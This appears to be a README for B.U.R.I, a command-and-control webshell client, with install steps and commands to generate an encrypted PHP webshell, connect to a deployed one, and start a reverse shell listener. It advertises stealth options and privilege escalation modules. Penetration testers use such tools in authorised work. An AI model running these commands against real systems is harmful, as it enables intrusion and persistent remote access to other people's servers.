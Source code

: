 # B.U.R.I v2.0 - Encrypted C2 Webshell Client

<img width="563" height="729" alt="image" src="https://github.com/user-attachments/assets/fd44ac00-cf3f-46b1-be0e-a74669280599" />


B.U.R.I (Backdoor Utility for Remote Interaction) is a modular, encrypted command-and-control (C2) webshell client designed for secure and interactive remote administration. It provides a feature-rich interface for managing remote systems via an encrypted PHP webshell, supporting AES-GCM encryption, reverse shell capabilities, and extensible command modules.

## Features

- **Encrypted Communication**: Uses AES-GCM for secure client-server communication.
- **Interactive Shell**: Rich terminal UI with auto-completion, history, and syntax highlighting powered by `rich` and `prompt_toolkit`.
- **Modular Design**: Extensible command modules for custom functionality (e.g., file upload/download, privilege escalation).
- **Reverse Shell Support**: Built-in listener for reverse shell connections.
- **Cross-Platform**: Supports both Linux and Windows targets with dynamic environment detection.
- **Stealth Options**: Customizable POST parameters and proxy support for enhanced discretion.
- **Path Autocompletion**: Remote path completion using `ls` for efficient navigation.

## Installation

### PyPI
```
pip install buri-tod
pip install --upgrade buri-tod
```
https://pypi.org/project/buri-tod/

### Prerequisites
- Python 3.8+
- Required Python packages:
  ```bash
  pip install requests rich prompt_toolkit pycryptodome
  ```

### Setup
1. Clone the repository:
   ```bash
   git clone https://github.com/joelindra/Buri.git
   cd Buri
   ```
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```
3. (Optional) Create a `modules` directory for custom command modules:
   ```bash
   mkdir modules
   ```

## Usage

B.U.R.I supports three main modes: creating a webshell, running an interactive session, and listening for reverse shells.

### 1. Create a Webshell
Generate an encrypted PHP webshell:
```bash
python buri.py create --path shell.php --password 'SuperSecretPass123'
```
This creates a PHP webshell at `shell.php` with the specified password for encryption.

### 2. Run an Interactive Session
Connect to a deployed webshell:
```bash
python buri.py run https://example.com/shell.php -p 'SuperSecretPass123' --param 'data'
```
- `--param`: Specify the POST parameter name (default: `data`).
- `--proxy`: Optional proxy (e.g., `http://127.0.0.1:8080`).

### 3. Start a Reverse Shell Listener
Listen for incoming reverse shell connections:
```bash
python buri.py listen --lhost 0.0.0.0 --lport 4444
```
Then, from the interactive shell, initiate a reverse shell:
```
revshell <listener_ip> 4444
```

### Example Commands
Once in the interactive shell:
- `whoami`: Display the current user.
- `cd /path/to/dir`: Change the remote working directory.
- `ls`: List files in the current directory (supports autocompletion).
- `upload /local/path /remote/path`: Upload a file to the remote system.
- `download /remote/path /local/path`: Download a file from the remote system.
- `revshell <ip> <port>`: Initiate a reverse shell to the specified listener.

### Screenshoot

<img width="1007" height="539" alt="image" src="https://github.com/user-attachments/assets/91932592-65bb-464a-b2d1-d36b2457cbda" />
